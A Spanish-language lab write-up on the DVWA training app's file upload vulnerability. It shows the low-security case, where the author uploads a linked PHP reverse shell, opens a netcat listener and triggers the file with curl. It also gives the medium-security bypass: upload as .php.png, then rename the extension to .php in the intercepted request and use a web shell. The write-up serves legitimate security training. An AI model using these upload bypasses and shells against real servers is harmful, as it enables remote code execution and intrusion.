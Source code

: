 Si una aplicación web permite a los usuarios subir archivos al servidor sin ningún tipo de restricción, esto se considera una vulnerabilidad ya que puede desencadenar en ejecución remota de código entre otras vulnerabilidades.

### Security: low
Con el nivel de seguridad bajo seleccionado, no hay ninguna protección, se puede subir cualquier archivo, en este caso usaré [esta reverse shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):

```
# 1- Poner a la escucha un puerto:
$ sudo rlwrap nc -nvlp 443
# 2- Subir el archivo
# 3- Hacer que el servidor ejecute el archivo:
$ curl -s http://127.0.0.1/hackable/uploads/reverse.php
```

![File upload](https://github.com/sapellaniz/dvwa/blob/master/img/file-upload-01.png)

### Security: medium
Con el nivel de seguridad medio seleccionado, nos encontramos con dos comprobaciones: que el archivo sea .png o .jpeg y que tenga un tamaño menor que 100000 bytes. Si subimos el archivo de antes, al terminar en .php, nos cancela la subida, sin embargo, podemos subirlo con extensión .php.png, interceptar la petición con el navegador y cambiar la extensión a .php. En este caso tuve problemas con las reverse shells así que utilicé la web shell [p0wny](https://github.com/flozz/p0wny-shell):

